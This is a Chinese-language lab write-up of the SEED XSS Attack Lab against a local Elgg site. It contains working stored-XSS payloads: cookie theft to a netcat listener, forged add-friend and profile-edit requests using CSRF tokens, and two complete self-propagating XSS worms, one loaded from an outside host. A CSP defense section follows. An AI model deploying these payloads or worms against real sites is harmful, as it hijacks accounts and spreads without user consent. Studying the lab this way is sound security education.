# XSS Attack Lab

## Experimental Principle

跨站脚本攻击（XSS）是指恶意攻击者往 Web 页面里插入恶意 Script 代码。

当用户浏览该页之时，嵌入其中 Web 里面的 Script 代码会被执行，从而达到恶意攻击用户的目的。

XSS 漏洞通常是通过 php 的输出函数将 javascript 代码输出到 html 页面中，通过用户本地浏览器执行的，所以 XSS 漏洞关键就是寻找**参数未过滤**的输出函数。

---

## Lab Environment Setup

本次实验依旧使用的是名为 Elgg 的开源 Web 应用程序。其服务器和数据库分别部署在 10.9.0.5 和 10.9.0.6 上。

进入 `LabSetup` 并启动容器：

```bash
dcbuild
dcup
```



查看 `/etc/hosts` 文件，主机与网站的映射已提前配置好。



访问 http://www.seed-server.com：



实验提供了初始账号：

| 用户名  | 密码        |
| ------- | ----------- |
| admin   | seedelgg    |
| alice   | seedalice   |
| boby    | seedboby    |
| charlie | seedcharlie |
| samy    | seedsamy    |

---

## Task 1: Posting a Malicious Message to Display an Alert Window

此任务的目标是将 JavaScript 程序嵌入到您的 Elgg 个人资料中，以便当其他用户查看您的个人资料时，将执行 JavaScript 程序并显示警报窗口。

登录 Samy 账号，修改 Brief description 为：

```html
<script>
    alert('XSS');
</script>
```

保存好后就已经生效了：


---

## Task 2: Posting a Malicious Message to Display Cookies

此任务的目标是在您的 Elgg 个人资料中嵌入 JavaScript 程序，这样当其他用户查看您的个人资料时，该用户的 cookie 将显示在警报窗口中。

可以使用 `document.cookie` 来获取用户的 cookie。

我们修改 Samy 的 Brief description 为：

```html
<script>
    alert(document.cookie);
</script>
```

保存好后就已经生效了：



---

## Task 3: Stealing Cookies from the Victim’s Machine

在此任务中，攻击者希望 JavaScript 代码将 cookie 发送给他/她自己。

为了实现这一点，恶意 JavaScript 代码需要向攻击者发送 HTTP 请求，并将 cookie 附加到请求中。

我们可以通过让恶意 JavaScript 插入一个  标签来做到这一点，并将其 src 属性设置为攻击者的机器。

当 JavaScript 插入 img 标签时，浏览器会尝试从 src 字段中的 URL 加载图像；这会导致 HTTP GET 请求发送到攻击者的计算机。

我们修改 Samy 的 Brief description 为：

```html
<script>
    document.write('');
</script>
```

（注：`encodeURIComponent`函数对cookie字符串进行编码，使其可以安全地包含在URL中，防止特殊字符引起的语法错误。）

这段 JavaScript代码会将 cookie 发送到攻击者机器的端口 5555（IP 地址为 10.9.0.1），其中攻击者有一个 TCP 服务器侦听同一端口。

我们在在 5555 端口上开启监听：

```shell
nc -lknv 5555
```



可以看到刚保存完 Samy 的 cookie 就已经被发送了。



---

## Task 4: Becoming the Victim’s Friend

在此任务中，我们需要编写一个恶意 JavaScript 程序，直接从受害者的浏览器伪造 HTTP 请求，而无需攻击者的干预。

攻击的目的是将 Samy 添加为受害者的好友。

在 CSRF_Attack 实验中，我们已经了解了添加好友的请求方式：

>可以看到加好友的请求格式为：`http://www.seed-server.com/action/friends/add?friend=?&__elgg_ts=?&__elgg_token=?`
>
>请求参数中有很多参数，`friend=56` 是 `alice` 的 userid。`__elgg_ts` 和 `__elgg_token` 为时间戳和 token。

接下来我们基于此编写 JavaScript 程序发送 HTTP 请求。

```html
<script type="text/javascript">
    // 当窗口加载完成时执行函数
    window.onload = function () {
        var Ajax=null;
       
        var ts="&__elgg_ts=" + elgg.security.token.__elgg_ts;           // 获取Elgg的安全时间戳
        var token="&__elgg_token=" + elgg.security.token.__elgg_token;          // 获取Elgg的 token
        
        // 构造发送请求的URL，包括目标地址和token
        var sendurl="http://www.seed-server.com/action/friend/add?friend=59" + ts + token;
         
        Ajax = new XMLHttpRequest();          // 创建一个新的XMLHttpRequest对象
        Ajax.open("GET", sendurl, true);	  // 打开一个GET请求，指定目标URL和异步执行
        Ajax.send();						  // 发送请求
    }
</script>

```

我们将其粘贴到 Samy Profile 的 About me中：



（注：文本模式会添加额外的 html 代码，可能会影响脚本的执行，编辑时应切换 html 模式）

保存，登录 Alice 账号，点进 Samy 的主页：



可以看到这边已经自动发送了添加好友的请求。



成功添加了好友。


> Q1：解释 `var ts="&__elgg_ts=" + elgg.security.token.__elgg_ts;  var token="&__elgg_token=" + elgg.security.token.__elgg_token;` 这两行代码的作用。

A1：`ts` 和 `token` 用来验证用户身份，上面两行代码通过获取它们形成完整的 GET 请求，达到欺骗服务器的目的。

> Q2：如果Elgg应用程序只提供 “About me” 字段的编辑器模式（默认模式），即无法切换到文本模式，是否还能发起成功的攻击？

A2：不能，我们可以编辑器模式编写代码试一下，对比一下两种模式的区别：

这是文本模式：



这是编辑器模式（默认模式）：



可以看到编辑器模式（默认模式）会自动地给脚本添加一些 html 标签，从而导致脚本无法执行。

---

## Task 5: Modifying the Victim’s Profile

此任务的目标是当受害者访问 Samy 的页面时修改受害者的个人资料。具体来说，修改受害者的 “About me” 字段。

与上一个任务类似，我们需要编写一个恶意 JavaScript 程序，直接从受害者的浏览器伪造 HTTP 请求，而无需攻击者的干预。

在 CSRF_Attack 实验中，我们已经了解了修改 profile 的请求方式：

>可以看到请求方式为 POST, url 为：`http://www.seed-server.com/action/profile/edit`
>
>参数有：`name`(用户名）, `briefdescription`（用户简介）, `accesslevel[i]`（修改 i 部分的权限，2为公开）, `guid`（用户 id）,以及 `__elgg_ts` 和 `__elgg_token`。

接下来我们基于此编写 JavaScript 程序发送 HTTP 请求。

```html
<script type="text/javascript">
    // 当窗口加载完成时执行函数
    window.onload = function(){   
        var userName = "&name=" + elgg.session.user.name;         // 获取当前用户的用户名
        var guid = "&guid=" + elgg.session.user.guid;            // 获取当前用户的GUID
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;             //获取时间戳
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token;    //获取 token

        // 组合所有参数，构造POST请求的内容
        var content = token + ts + userName + "&description=Samy%20is%20my%20hero&accesslevel[description]=2" + guid;
        var samyGuid = 59;		
        var sendurl = "http://www.seed-server.com/action/profile/edit";
        
        if (elgg.session.user.guid != samyGuid) {    //防止攻击者攻击到自己
            var Ajax = null;
            Ajax = new XMLHttpRequest();
            // 配置HTTP请求方法为POST，请求的URL为sendurl，并设定为异步请求
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>

```

注入攻击代码并保存：



登录 Alice 账号，此时 Alice 的 About me 为空：



点进 Samy 的主页：



此时 POST 请求已发送。



Alice 的 About me已被修改。

> Q3：为什么我们需要这行代码： `if (elgg.session.user.guid != samyGuid) `，删除这行代码，然后重复你的攻击。报告并解释你的观察结果。

A3：这行代码是为了防止脚本修改自己的 profile，如果没有这行代码，攻击者保存后会立即修改攻击者自己的 profile， 从而无法对其他人进行攻击。

---

## Task 6: Writing a Self-Propagating XSS Worm

这个任务中，你需要实现这样一个蠕虫，它不仅修改受害者的个人资料并将用户 “Samy” 添加为好友。

而且还将蠕虫本身的副本添加到受害者的个人资料中，因此受害者变成了攻击者。

为了实现自我传播，当恶意 JavaScript 修改受害者的个人资料时，它应该将自身复制到受害者的个人资料中。

有多种方法可以实现这一目标，我们将讨论两种常见的方法。

### DOM Approach

即利用 DOM 操作（如 `document.getElementById`）用来动态获取和处理页面内容。

我们给出攻击代码：

```html
<script id="worm">
    // 定义蠕虫脚本的头部标签
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    
    // 获取当前蠕虫脚本的代码内容
    var jsCode = document.getElementById("worm").innerHTML;
    
    // 定义蠕虫脚本的尾部标签
    var tailTag = "</" + "script>";
    
    // 组合完整的蠕虫代码并进行 URL 编码以便嵌入 HTTP 请求中
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

    // 当页面加载完成时自动执行的函数
    window.onload = function() {
        // 获取当前用户的信息，包括用户名和唯一标识符（GUID）
        var userName = "&name=" + elgg.session.user.name; // 当前用户名
        var guid = "&guid=" + elgg.session.user.guid;     // 当前用户的GUID

        // 获取 CSRF 相关的安全令牌
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts; // 时间戳
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token; // 令牌

        // 构造 POST 请求的内容
        var content = token + ts + userName + 
            "&description=" + wormCode + 
            "&accesslevel[description]=2" + 
            "&briefdescription=alice%20is%20my%20hero&accesslevel[briefdescription]=2" + 
            guid; // 包含蠕虫代码和其他字段的恶意描述内容

        // 指定攻击者（samy）的GUID，避免攻击自身账户
        var samyGuid = 59;

        // 构造目标请求的 URL
        var sendurl = "http://www.seed-server.com/action/profile/edit";

        // 检查当前用户是否是攻击者账户，避免攻击自身
        if (elgg.session.user.guid != samyGuid) {
            // 创建 XMLHttpRequest 对象用于发送异步请求
            var Ajax = null;
            Ajax = new XMLHttpRequest();

            // 设置请求为 POST 方法并指定目标 URL
            Ajax.open("POST", sendurl, true);

            // 设置请求头为表单 URL 编码格式
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

            // 发送构造好的恶意请求内容
            Ajax.send(content);
        }
    };
</script>

```

可以看到，关键部分为：

```javascript
var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML; // 获取脚本本身内容
var tailTag = "</" + "script>";
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); // 编码蠕虫脚本内容
```

通过 `document.getElementById("worm").innerHTML` 获取自身脚本的内容，结合 `<script>` 标签的头部和尾部，生成完整的嵌入式蠕虫代码。

并使用 `encodeURIComponent` 对其编码，以便嵌入到 HTTP 请求的参数中。

接下来我们注入攻击代码：



接下来先清空 Alice 的 profile，再访问 Samy 的主页：



Alice 的 profile 已经被修改，恶意代码也成功被注入。



我们再登录 boby 的账号，打开 Alice 的主页：



可以看到一点进 Alice 的主页，post 请求就发送了。再查看 boby 的 profile：



可以看到 boby 的 profile 也已经被修改了，蠕虫代码也成功传播到了 boby。

---

### Link Approach

**Link 方法** 是一种通过恶意链接传播的 XSS 蠕虫攻击方式。此类攻击利用用户点击特定链接或加载特定页面时自动执行的恶意代码，从而达到传播蠕虫的目的。

与 DOM Approach 的区别就在于：js 代码不是直接写在受害者的数据中的，而是调用第三方的脚本。

这里为了方便，我们直接用前面设置的 www.example32.com 作为第三方服务器。

接下来我们进入网站服务器容器开始搭建网站：



```bash
docker ps
docker exec -it cad599761961 /bin/bash
```

配置 apache2 添加 www.example32.com 服务：

```bash
cd /etc/apache2/
nano ./sites-available/000-default.conf 
```

添加如下内容：

```apl
ServerName		http://www.example32.com
DocumentRoot	/var/www/example32
```



重启 apache2.

```bash
service apache2 restart
```

创建对应的脚本文件：

```bash
mkdir /var/www/example32
nano /var/www/example32/xssworm.js
```

`xssworm.js`：

```javascript
window.onload = function(){
    var wormCode = encodeURIComponent(
	"<script type=\"text/javascript\" " +
	"id =\"worm\" " +
	"src=\"http://www.example32.com/xssworm.js\"> " +
	"</" + "script>");
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    var content=token + ts + userName + "&description=" + wormCode + "&accesslevel[description]=2" +                                             				"&briefdescription=alice%20is%20my%20hero&accesslevel[briefdescription]=2" + guid;
    var samyGuid=59;
    var sendurl="http://www.seed-server.com/action/profile/edit";

    if(elgg.session.user.guid!=samyGuid)
    {
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
```

与前面的脚本类似，这里不多做赘述。

使用浏览访问 http://www.example32.com/xssworm.js 验证一下：



这里显示了攻击脚本的 js 代码。

接下来我们还原一下上一个实验被影响的 Samy，Alice 和 Boby 的账号。

用 Samy 注入如下攻击代码： 

```html
<script type="text/javascript" id="worm" 
	src="http://www.example32.com/xssworm.js"> 
</script>
```

这样只要有人点进了 Samy 的主页，网页会自动下载 `xssworm.js` 并执行。



重复上一个实验的操作，登录 Alice 查看 Samy 的主页：



可以看到一进入 Samy 的主页，网页就自动下载了 http://www.example32.com/xssworm.js 蠕虫代码。



Alice 的 profile 被修改了，蠕虫代码也成功注入。

再登录 Boby 查看 Alice 的主页：





蠕虫成功传播到了 Boby。

---

## Task 7: Defeating XSS Attacks Using CSP

XSS 漏洞的根本问题是 HTML 允许 JavaScript 代码与数据混合。

因此，为了解决这个根本问题，我们需要将代码与数据分离。

在 HTML 页面中包含 JavaScript 代码有两种方法，一种是内联方法，内联方法直接将代码放置在页面内部。

另一种是链接方法。链接方法将代码放置在外部文件中，然后从页面内部链接到该文件。


内联方法是XSS漏洞的罪魁祸首，因为浏览器不知道代码最初来自哪里：是来自受信任的Web服务器还是来自不受信任的用户？如果没有这些知识，浏览器就不知道哪些代码可以安全执

行，哪些代码是危险的。链接方法为浏览器提供了一条非常重要的信息，即代码来自哪里。然后，网站可以告诉浏览器哪些来源是值得信赖的，这样浏览器就知道哪一段代码可以安全执

行。尽管攻击者还可以使用链接方法在其输入中包含代码，但他们无法将代码放置在那些值得信赖的地方。

网站如何告诉浏览器哪个代码源值得信赖是通过使用称为内容安全策略 (CSP) 的安全机制来实现的。该机制专门用于抵御 XSS 和 ClickJacking 攻击。它已成为一种标准，当今大多数浏

览器都支持。


为了进行CSP实验，我们会建立几个网站。在 Labsetup/image www docker image 文件夹中，有一个名为 apache csp.conf 的文件。

它定义了五个网站，它们共享同一个文件夹，但它们将使用该文件夹中的不同文件。使用 example60 和 example70 站点用于托管 JavaScript 代码。

 example32a、example32b 和 example32c 是具有不同 CSP 配置的三个网站。

实验已经在容器中提前配置好了，我们查看一下：

```bash
nano /etc/apache2/sites-available/apache_csp.conf
```

 

从这几个网站的注释我们也可以看出一些东西：

> www.example32a.com 不使用 CSP 策略，即信任所有网站
>
> www.example32b.com 通过 WEB 服务器使用 CSP 策略，只信任来自同源和.example70.com的脚本
>
> www.example32c.com 在 WEB 应用使用 CSP 策略

由于 www.example32c.com 是在 WEB 应用中配置了 CSP，我们还要再查看一下 `/var/www/csp/phpindex.php` ：

```
nano /var/www/csp/phpindex.php 
```



> 可以看到 www.example32c.com 只信任来自同源，.example70.com 和 nonce-111-111-111 的脚本。

接下来我们观察三个网站：







和预想的一样。

接下来就很简单了。

> 1.更改example32b上的服务器配置（修改Apache配置），使 Areas 5 和 Areas 6 显示 OK.

我们修改 apache 配置：

（注：由于Labsetup/image www docker image并未挂载在容器上，想要修改生效必须重新构建容器，我们这里直接修改容器的服务器配置文件再重启 apache2 即可）

```
nano /etc/apache2/sites-available/apache_csp.conf
```



我们把 .example60.com添加上即可。

重启 apache2

```bash
service apache2 restart 
```

此时再访问 example32b：



> 2.更改example32c上的服务器配置（修改PHP代码），使区域1、2、4、5、6都显示OK。

我们修改 `/var/www/csp/phpindex.php`：



```php
<?php
    $cspheader = "Content-Security-Policy:".
                 "default-src 'self';".
                 "script-src 'self' 'nonce-111-111-111' *.example70.com *.example60.com 'nonce-222-222-222'".
    header($cspheader);
?>
    
<?php include 'index.html';?>

```

添加 .example60.com和 nonce-222-222-222 即可。

此时再访问 example32c：



> Q：请解释为什么 CSP 可以帮助防止跨站脚本攻击

A：显然的，CSP 就是**白名单**制度，明确告诉客户端，哪些外部资源可以加载和执行。

---

## Summary

主要学习了：

- 跨站脚本攻击
- XSS 蠕虫和自我传播
- 内容安全策略（CSP）
